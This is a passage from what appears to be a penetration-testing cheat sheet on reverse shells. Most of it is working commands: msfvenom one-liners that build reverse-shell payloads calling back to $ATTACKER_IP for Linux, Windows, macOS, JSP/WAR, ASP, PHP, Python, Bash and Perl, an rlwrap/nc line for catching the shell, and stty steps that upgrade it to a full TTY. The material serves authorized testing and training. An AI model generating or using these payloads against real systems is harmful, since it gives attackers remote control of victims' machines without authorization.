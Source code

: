 #### Other platforms

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="$ATTACKER_IP" LPORT=$ATTACKER_PORT -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### Spawn TTY Shell

In order to catch a shell, you need to listen on the desired port. `rlwrap` will enhance the shell, allowing you to clear the screen with `[CTRL] + [L]`.

```powershell
rlwrap nc $ATTACKER_IP $ATTACKER_PORT

rlwrap -r -f . nc $ATTACKER_IP $ATTACKER_PORT
-f . will make rlwrap use the current history file as a completion word list.
-r Put all words seen on in- and output on the completion list.
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

:warning: OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the same way bash or sh does. [...] stty raw -echo; fg[...] If you try to execute this as two separated commands, as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect

```powershell
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
